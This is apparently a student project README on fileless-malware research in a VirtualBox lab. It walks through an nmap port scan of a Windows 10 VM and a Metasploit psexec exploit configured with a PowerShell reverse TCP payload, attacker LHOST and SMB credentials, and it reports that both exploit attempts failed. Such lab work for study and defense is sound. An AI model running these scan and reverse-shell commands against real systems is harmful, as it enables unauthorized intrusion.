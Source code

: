# Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Griffin

### Project Description

- The purpose of this project is to conduct offensive security research primarily focused on identifying, exploiting, 
and mitigating fileless malware attacks within a Windows-based environment to improve cybersecurity defenses against
in-memory code execution. This project will simulate real-world fileless attacks within a controlled environment using 
a Kali Linux VM and a Windows 10 VM, providing a platform for fileless vulnerability discovery and exploitation. The 
tools that will be used in this research are Metasploit Framework, Nmap, and custom Python scripts, focusing on how 
these tools can be utilized to discover and exploit such attacks, providing insights for enhancing traditional 
cybersecurity defenses against fileless malware.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Windows 10 VM` a base Windows 10 VM, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system
- Set up the `Windows 10 VM` as the target system.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Windows 10 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Windows 10` iso image from https://www.microsoft.com/en-us/software-download/windows10
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk with 60 GB of storage**
- Install the `Windows 10` iso image onto the newly created VM instance
- Change the **Network Adapter** to **Host-only Adapter** in the `Windows 10` machine settings
- Start the `Windows 10 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- Install the `Kali Linux` iso image onto the newly created VM instance
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using the login credentials created

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux VM` and the `Windows 10 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Windows 10 VM` terminal

**Displays IP configuration information on the system**
``` 
ipconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Windows 10 VM` using the following command

**Scans all 65,535 ports on the target system and returns every open port**
```
nmap -p- <target ip>
```

- Some exploitable ports that were open on our target system are as follows:
  + `SMB port 139`
  + `SMB port 445`

**Screenshot of our nmap scan**

![](./images/Nmap_SS.png)

---

# Phase 2 Objectives

- Use `Metasploit Framework` to exploit an in-memory vulnerability
- Create a `Custom Python Script` to automate port scanning and exploitation
- Document the technical steps taken and our findings.

# Phase 2.1 - Exploiting using Metasploit Framework

- Now, we can use `Metasploit Framework` on our `Kali Linux VM` to exploit some vulnerabilities on these open ports
- Since `SMB ports 139 and 445` are open, we can attempt to exploit a PowerShell Reverse TCP vulnerability on the 
target system using the following commands

**Enter the Metasploit Framework terminal using this command**
```
sudo msfconsole
```
![](./images/msfconsole_command.png)

**We can search exploits specific to PowerShell using the following command**
```
search powershell
```

![](./images/search_powershell_command.png)

**Exploits an SMB vulnerability to execute a payload in memory using PowerShell**
```
use exploit/windows/smb/psexec
```

![](./images/use_exploit_command.png)

**Setting options for our exploit, such as payload, RHOST, and LHOST**
```
set payload windows/x64/powershell_reverse_tcp
set RHOST <target_ip>
set LHOST <attacker_ip>
```

![](./images/exploit_settings.png)

**Runs the exploit**
```
exploit
```
![](./images/exploit_command.png)

**As we can see, our exploit was unsuccessful because we were denied access to the target system.
We can configure additional options for this exploit to try working around this error.**

**Setting additional options for our exploit, such as SMBuser and SMBpass for authentication**
```
set SMBuser <target_username>
set SMBpass <target_password>
```
![](./images/exploit_settings2_command.png)

**Trying the exploit again**
```
exploit
```

![](./images/exploit2_command.png)

**As we can see, another unsuccessful attempt to create a Reverse TCP connection through PowerShell using open SMB ports.
At this point in our research, we are unsure how to proceed with exploiting a fileless attack through PowerShell via 
open ports on a Windows-based target system. However, we will continue to refine our methods to successfully create an
effective fileless attack on our Windows 10 VM.**

# Phase 2.2 - Automation using Python

-  Our objective here is to create a functional Python script to automate port scanning and vulnerability exploitation
- We will be using `Python3` for this phase of our research

**Our `Custom Python Script` can be found here:** https://github.com/eisenbeisr/CSC466-OffensiveSecurityResearch


---